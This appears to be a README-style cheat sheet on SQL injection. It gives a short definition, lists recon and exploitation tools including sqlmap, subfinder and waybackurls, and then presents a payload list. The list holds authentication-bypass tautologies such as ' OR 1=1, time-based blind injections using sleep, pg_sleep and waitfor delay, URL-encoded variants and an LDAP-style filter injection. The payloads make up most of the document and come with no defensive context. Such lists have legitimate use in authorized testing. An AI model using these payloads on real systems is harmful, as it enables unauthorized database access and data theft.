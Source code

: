<div align="center"><samp><h1>SQL injection (SQLI) - PAYLOAD</h1></samp></div>
<b> Overview : </b>
<p>
A SQL injection is a technique that attackers use to gain unauthorized access to a web application database by adding a string of malicious code to a database query. A SQL injection (SQLi) manipulates SQL code to provide access to protected resources, such as sensitive data, or execute malicious SQL statements.
</p>
<div align="center"><samp><h1>Required Tools</h1></samp></div>
<pre>
httpx
subfinder
waybackurls
Gf Pattern
Sqlmap
</pre>
<div align="center"><samp><h1>Payload List</h1></samp></div>

```
'
' OR 1=1
' OR '1'='1
' OR 'True'='True
'pg_sleep(5) --+-
" or sleep(5)="
' or sleep(5)='
1) or sleep(5)#
") or sleep(5)="
') or sleep(5)='
1)) or sleep(5)#
")) or sleep(5)="
')) or sleep(5)='
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
' OR 1=1--
' OR 1=0--
%27%20or%201=1
*(|(object=*))
)%20or%20('x'='x
%20or%201=1
1) or pg_sleep(__TIME__)--
/**/or/**/1/**/=1
' or username like '%
);waitfor delay '0:0:__TIME__'--
or isNULL(1/0) /*
x' or 1=1 or 'x'='y
```
